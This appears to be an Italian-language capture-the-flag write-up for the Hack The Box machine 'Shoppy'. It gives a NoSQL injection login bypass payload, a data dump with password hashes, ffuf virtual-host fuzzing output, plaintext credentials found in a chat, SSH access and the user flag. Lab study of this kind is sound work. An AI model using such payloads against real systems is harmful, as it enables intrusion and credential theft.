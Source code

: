 1) Ho messo nel campo username l'apice e anche nel campo password l'apice ed ho ricevuto un errore 504 che mi ha fatto pensare ha una NOSQL injection
2) Ho cercato uno cheatsheet per l'NOSQLi https://nullsweep.com/nosql-injection-cheatsheet/
3) Ho scoperto un payload che usa lo stesso concetto di SQL: ```
site.com/page?query=term || '1'=='1

4) Lo riadatto e la stringa viene:  admin' || '1'=='1
5) Inserisco questo payload su username e la password la metto a caso
6) Dentro la pagina ci stà una barra di ricerca, te devi metterci lo stsso payload che hai usato per autenticarti e poi ti dovrai cliccare su download export:
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin",
"password":"23c6877d9e2b564ef8b32c3a23de27b2"},
{"_id":"62db0e93d6d6a999a66ee67b","username":"josh"
,"password":"6ebcea65320589ca4f2f1ce039975995"}]

7) Uso Crackstation per trovarmi la password di entrambi perchè sono in hash:
admin:
josh:remembermethisway

8) Ora ho provato a fare il login con le credenziali di josh su ssh però non mi fa accedere, a questo punto potrebbero starci dei virtualhost scopriamoli:
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/amass/all.txt   -u http://shoppy.htb:80/ -H 'Host: FUZZ.shoppy.htb' -fs 169 
 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb:80/
 :: Wordlist         : FUZZ: /usr/share/wordlists/amass/all.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 52ms]
:: Progress: [420112/420112] :: Job [1/1] :: 812 req/sec :: Duration: [0:08:29] :: Errors: 0 ::


9) Ora entriamo nel sito del virtualhost e dato che è una pagina di login provo ad accedere con le credenziali di josh.
10) Ento è vedo questo messaggio:

jaeger
[4:22 AM](http://mattermost.shoppy.htb/shoppy/pl/ki1a198dybd7icutcjsa1ut6iy)
Hey @josh,
For the deploy machine, you can create an account with these creds : username: jaeger password: Sh0ppyBest@pp! And deploy on it.


11) Abbiamo scoperto le credenziali jaeger:Sh0ppyBest@pp!
12) Le usiamo per accedere al servizio ssh
13) E poi troviamo la user.txt con: cat user.txt      
6bc7215fa246f328e6df9a111c022dd5

